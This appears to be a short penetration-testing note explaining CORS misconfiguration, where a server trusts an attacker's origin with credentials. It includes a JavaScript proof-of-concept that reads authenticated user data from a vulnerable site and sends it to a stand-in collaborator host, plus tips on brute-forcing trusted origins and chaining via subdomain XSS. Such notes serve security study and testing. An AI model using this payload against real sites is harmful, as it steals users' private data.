 # Cross Origin Resource Sharing
is an HTTP-header based mechanism that allows a webserver to indicate any origins (domain, scheme, or port) other than its own from which a browser should permit loading resources.

 By default, ```XMLHttpRequest``` and ```fetch()``` follow the same-origin policy, meaning they can only request resources from the same origin the application was loaded from unless the response from other origins includes the right CORS headers.

 Consider a webserver that returns the following headers:
 ```Access-Control-Allow-Credentials: true```
 
 ```Access-Control-Allow-Origin: attacker.com```

 These headers specify that client HTTP requests from ```attacker.com``` can be made to the application and the responses can be read, with inclusion of credentials (cookies).

 To exploit this scenario - an attacker might host a malicious website that includes malicious javascript that fetches sensitive information from the vulnerable website,
 and exfiltrates the responses to an attacker controlled server:

 ```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('GET', 'https://vulnerable.com/user-data', true);
req.withCredentials = true;
req.send();

function reqListener() {
   location = '//BURP-COLLABORATOR/exfil?data=' + this.responseText;
};
```

In order to enumerate the domains in the CORS policy, a brute force of values in the Origin header of the request should be initiated - if a domain is trusted it should be reflected in the ```ACAO``` response header.

subdomains or other trusted origins that are vulnerable to XSS could be exploited in the following manner:
```javascript
window.location = 'https://sub.vulnerable.com/?xss=<CORS EXFILTRATION PAYLOAD>'
```
